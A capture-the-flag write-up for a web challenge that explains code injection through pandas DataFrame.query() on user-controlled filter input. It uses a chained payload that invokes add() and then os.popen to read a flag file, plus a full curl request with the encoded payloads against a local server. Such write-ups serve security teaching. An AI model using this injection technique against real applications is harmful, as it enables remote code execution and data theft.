 # Duncan Chess Academy
**Category:** web

**Author:** \_Roko'sBasilisk\_

## Description

The embarassing defeat of the each and every chess club member by Beth, urged Mr Ganz to build an online Chess Academy. Although still in very early stages, it has a search engine for filtering historical chess matches. What could go wrong..?

## Points
500

## Solution

<details>
 <summary>Reveal Spoiler</summary>

The main vulnerability of the challenge is using the `query()` method of pandas DataFrames with user contorlled input to filter data. This method is using python's builtin `eval` in the background and can lead to RCE if not used carefully.

In this case however the input is somewhat constrained. The filterable fields have a predefined set of choices which is generated from the existing fields in the database, apart from "turns" - which allows only integers - and "rated" which is limited to an input of a maximum 10 characters.

The next step of the solution is to find a way of bypassing those restrictions in order to pass arbitrary input in the query method. A key observation that needs to be made is that the `add()` function is imported from `webapp.server.game.views` into `webapp.server.user.views` where query invocation resides. This means that `add()` is in the globals when query is called. As a result it can be invoked from the query method using the `@` prefix. By exploiting that we can add a new record in the databse which has our next payload as the value of the "opening_name" field and therefore being able to use it in the filter request. 

To invoke the `add()` method and add a new record we use the "rated" field which is the only one that only restricts the length of the input rather than the contents using the payload `'+add()+'` as input which is exactly of length 10. Furthermore the next payload should be added in the "opening_name" field by using the "on" form data field (See `AddGameForm`). This should be something that allows for RCE and thus it can be something like this `'+@form.winner.__setattr__("choices",[@pd.io.common.os.popen("cat /root/flag/txt").read()]).__str__()+'`. This updates the choices of the "winner" field in the filter form so that we can extract the result of our payload. Other exfliltration methods are also possible. 

Also note that in this payload I am directly reading the flag but in the real challenge you should do a bit of searching (Since you already have RCE) to find where the flag is before reading it.

We can then perform the following request (Make sure your CSRF token matches):

```bash
curl 'http://localhost:5002/members' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "Chromium";v="88", "Google Chrome";v="88", ";Not A Brand";v="99"' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
 -H 'Cookie: _xsrf=2|e8c3fa28|46c03ed42decf03a74a32cc8f0730a39|1612020031; _ga=GA1.1.134899202.1612893888; session=.eJwdzkuOAjEMRdG9ZMzATmwnYTMlxx81QuqWqmCE2DtFD9_g6p1X2XKP46dcH_szLmW7ebmWJQaAE0fXoGahDqSqDEPbrKN5W0vEKtbl0MIaCVk0mbgqMQPhuVjQYDgRoXYhzxxkZjg7hQe6M3XoYTTmGUSHwQtikessJ-R5xP6vwUuxY8_t8XeP3y8OeyZbRqbbeZLCGjLDppF6dc3GhC7l_QFuwEAL.YDTkHw.hgsAOrVY1gDUYaQOS84tSpQ37EQ' \
  --data-raw 'csrf_token=ImIxN2ZmNWNmZWZmZGM1NjFmNjVhZTY5ZWM5YzRhZDJkYWYzNTQxZDYi.YDTk3g.ZIbEh6RlTqkQUXjQV3CaEVpoeAI&opening_name=&victory_status=outoftime&winner=black&rated=%27%2B%40add()%2B%27&turns=10&id=IRRELEVANTID&moves=DOESNOTMATTER&on=%27%2B%40form.winner.__setattr__(%22choices%22%2C%5B%40pd.io.common.os.popen(%22cat%20%2Froot%2Fflag.txt%22).read()%5D).__str__()%2B%27' \
  --compressed
```

When the new record is added, a new option containg our exploit payload should appear in the `opening_name` filter.

![Screenshot 1](../../_assets/duncan-chess-academy-writeup1.png)

We cna then choose this payload and run the search function which will execute it and update the winner field with the flag as shown below:

![Flag](../../_assets/duncan-chess-academy-flag.png)

</details>